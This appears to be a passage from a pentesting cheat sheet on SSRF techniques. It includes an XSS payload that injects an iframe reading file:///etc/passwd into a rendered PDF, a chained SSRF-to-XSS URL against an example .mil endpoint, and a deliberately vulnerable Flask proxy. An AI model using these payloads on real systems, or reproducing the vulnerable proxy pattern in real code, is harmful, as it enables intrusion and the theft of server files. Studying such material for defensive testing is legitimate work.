 # Blind SSRF

* **Time based SSRF**

Checking the time of the responses from the server it might be possible to know if a resource exists or not (maybe it takes more time accessing an existing resource than accessing one that doesn't exist)

## SSRF to XSS
```html
http://brutelogic.com.br/poc.svg      //simple alert
https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=      //simple ssrf

https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=http://brutelogic.com.br/poc.svg

```

## SSRF from XSS

**Using an iframe**

The content of the file will be integrated inside the PDF as an image or text
```javascript
<img src="echopwn" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>

```

**Using an attachment**

Example of a PDF attachment using HTML

1. use `<link rel=attachment href="URL">` as Bio text
2. use `'Download Data'` feature to get PDF
3. use `pdfdetach -saveall filename.pdf` to extract embedded resource
4. cat `attachment.bin`

# SSRF on Flask Through Incorrect Pathname Interpretation
Flask accepts certain characters that it shouldn't. As an example, the following HTTP request, which should be considered invalid, is surprisingly treated as valid by the framework, but the server responds 404 Not Found:
```html
GET @/ HTTP/1.1
Host: target.com
Connection: close
```
Below is an example of the code:
```python
from flask import Flask
from requests import get

app = Flask('__main__')
SITE_NAME = 'https://google.com/'

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def proxy(path):
  return get(f'{SITE_NAME}{path}').content

app.run(host='0.0.0.0', port=8080)
```
"What if the developer forgets to add the last slash in the SITE_NAME variable?". And yes, it can lead to an **SSRF**.